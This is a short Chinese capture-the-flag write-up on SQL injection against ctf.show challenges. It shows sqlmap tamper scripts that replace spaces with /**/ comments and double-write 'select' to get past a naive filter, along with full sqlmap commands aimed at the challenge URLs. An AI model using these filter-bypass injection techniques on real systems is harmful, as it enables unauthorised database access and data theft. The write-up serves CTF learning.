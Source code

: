 先看这道题目

```php
//对传入的参数进行了过滤
  function waf($str){
   return preg_match('/ /', $str);
  }
```

发现如果匹配到空格就跳过 这里我们可以写一个最简单的tamper

```python
from lib.core.enums import PRIORITY
from lib.core.common import singleTimeWarnMessage
 
__priority__=  PRIORITY.NORMAL
 
def dependencies():
    singleTimeWarnMessage("第一次写的tamper，空格置换/**/")
def tamper(payload,**kwargs):
    return payload.replace(" ","/**/")
```

```cobol
py3 .\sqlmap.py -u  "http://c730dbae-83f1-4237-809e-0e03ccba5a8c.challenge.ctf.show/api/index.php" --headers  "Content-Type: text/plain" --method PUT  --data "id=1" --level 3  --safe-url="http://c730dbae-83f1-4237-809e-0e03ccba5a8c.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper 2.py -v3
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/71fdac998a3aa693790f8e352d50043b.png" alt="" style="max-height:503px; box-sizing:content-box;" />


实现了注入 其实使用 space2comment也可以

## web208 双写select



```cobol
py3 .\sqlmap.py -u  "http://4d82d474-bc5a-465d-8101-34e5b964f486.challenge.ctf.show/api/index.php" --headers  "Content-Type: text/plain" --method PUT  --data "id=1" --level 3  --safe-url="http://4d82d474-bc5a-465d-8101-34e5b964f486.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper 2.py -v3
```

```python
from lib.core.enums import PRIORITY
from lib.core.common import singleTimeWarnMessage
 
__priority__=  PRIORITY.NORMAL
 
def dependencies():
    singleTimeWarnMessage("空格置换/**/、双写绕过select")
def tamper(payload,**kwargs):
    return payload.replace(" ","/**/").replace("select","selselectect")
```
